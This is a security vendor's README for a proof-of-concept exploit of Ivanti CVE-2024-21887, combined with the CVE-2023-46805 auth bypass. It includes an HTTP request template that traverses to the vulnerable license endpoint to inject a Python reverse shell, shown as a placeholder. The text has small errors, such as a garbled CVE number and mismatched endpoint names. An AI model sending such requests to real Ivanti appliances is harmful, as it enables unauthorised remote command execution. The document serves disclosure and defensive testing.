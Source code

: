 # Ivanti CVE-2024-21887 PoC Exploit
CISA issued an emergency directive on Ivanti CVE-2024-21887 vulnerability. The agency also reported that CVE-2024-21887 poses unacceptable risks to many federal agencies and should be mitigated immediately.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-21887 vulnerability.

Test security controls against the CVE-2024-21887 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-21887 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [Ivanti CVE-2023-46805 and CVE-2024-21887 Zero-Day Vulnerabilities Actively Exploited](https://www.picussecurity.com/resource/blog/ivanti-cve-2023-46805-and-cve-2024-21887-zero-day-vulnerabilities)


CVE-2024-21887 Proof-of-concept (POC)
----------------------
Ivanti CVE-2024-21887 vulnerability is a command injection vulnerability found in "/api/v1/license/key-status/<path:node_name>" API endpoint.<br> 
Adversaries were able to access this endpoint using the CVE-20203-46805 vulnerability and append their payload to be executed by the vulnerable Ivanti product.<br>
The example HTTP GET request below exploits CVE-2023-46805 vulnerability to view system information without authentication.

#### Example CVE-2024-21887 Exploit:
```http
GET /api/v1/totp/user-backup-code/../../license/keys-status/<url_encoded_python_reverse_shell> 
HTTP/1.1 Host: <IP_Vulnerable_Ivanti_Product>
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
